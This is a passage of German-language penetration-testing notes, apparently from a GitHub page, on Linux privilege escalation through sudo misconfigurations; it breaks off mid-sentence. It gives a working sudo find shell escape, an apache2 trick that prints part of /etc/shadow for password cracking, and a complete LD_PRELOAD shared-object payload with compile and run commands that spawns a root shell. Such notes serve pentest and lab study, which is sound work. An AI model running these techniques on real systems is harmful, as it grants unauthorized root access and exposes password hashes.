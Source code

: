 Sequences können gefunden werden auf https://gtfobins.github.io/

```bash
#z.B. falls sudo find möglich ist
sudo find . -exec /bin/sh \; -quit
```

#### Abusing intended functionality

Wenn keine Shell Escape Sequences existieren, könnten diverse Tools u.U. dennoch für PrivEsc genutzt werden. Ein Beispiel hierfür ist Apache 2:

```bash
#Der Befehl versucht, die angegebene Datei zu parsen, was in einem Fehler resultiert. Allerdings wird die erste Zeile ausgegeben, vllt. ist nun das Cracken des root Passworts möglich
sudo apache2 -f /etc/shadow
#Wenn Cracken erfolgreich ist, einfach mit su auf root Shell wechseln
```

![image-20200726122806287](https://user-images.githubusercontent.com/33549572/88826389-fc03e700-d1c8-11ea-8c51-1bc14965fa99.png)

#### Environment Variables

Wenn **LD_PRELOAD** gesetzt ist, kann u.U. eine root Shell gespawned werden. Hierfür muss z.B. **LD_PRELOAD für env_keep gesetzt sein**.

![image-20200726123323688](https://user-images.githubusercontent.com/33549572/88826409-03c38b80-d1c9-11ea-94c9-94639dadcb22.png)

Nun kann ein shared object File erzeugt werden, welches später geladen wird. Folgendes C Programm wird hierfür genutzt.

```bash
#Programm preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}

#Kompilieren mit: gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
#-fPIC für x64
#Nun ein erlaubtes sudo Programm ausführen
sudo LD_PRELOAD=/tmp/preload.so find
```

![image-20200726123814082](https://user-images.githubusercontent.com/33549572/88826489-1b9b0f80-d1c9-11ea-971b-98ad4ea1ffbb.png)

------

**LD_LIBRARY_PATH** beinhaltet Verzeichnisse, in welchen als erstes nach shared libraries gesucht wird. Um die shared libraries, welche ein Programm nutzt, anzeigen zu lassen, kann folgender Befehl genutzt werden:
